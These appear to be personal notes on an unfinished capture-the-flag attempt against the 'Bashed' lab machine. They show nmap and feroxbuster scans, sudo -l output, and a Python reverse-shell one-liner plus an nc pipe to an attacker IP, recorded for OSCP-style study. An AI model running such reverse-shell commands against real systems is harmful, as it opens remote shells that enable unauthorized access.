




  

it mentions phpbash developed at arrexel
https://github.com/Arrexel/phpbash

```
└─$ nmap -sC -sV -Pn 10.10.10.68
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-11 12:43 EST
Stats: 0:02:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 30.03% done; ETC: 12:50 (0:04:51 remaining)
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
80/tcp   open     http           Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
3370/tcp filtered satvid-datalnk

```

we can http://10.10.10.68/uploads/

in the images we see that ther re is this directory


feroxbuster --url http://10.10.10.68/uploads -x php

```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://10.10.10.68/uploads -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.68/uploads
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        9l       28w      312c http://10.10.10.68/uploads => http://10.10.10.68/uploads/
403      GET       11l       32w      290c http://10.10.10.68/.php
[####################] - 8m     60000/60000   0s      found:2       errors:89     
[####################] - 8m     60000/60000   113/s   http://10.10.10.68/uploads/ 

```

  

no permission to upload it says


after some more busting found at

  

now we need to find vuln in the code

  

problem with uploading shell

but user flag gotten easily

  

python shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

`nc -lvp 1235`


/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL

python doesn'tseem to run

in my case however nc  return connect momentarily

/bin/sh | nc 10.10.14.19 1235

trying all weird combinations but unableto get the script accross

so bashed shall ressmain unconquered.

looking for more ad machines. sure.
can i really work hard. oscp and osep.
Dec 6


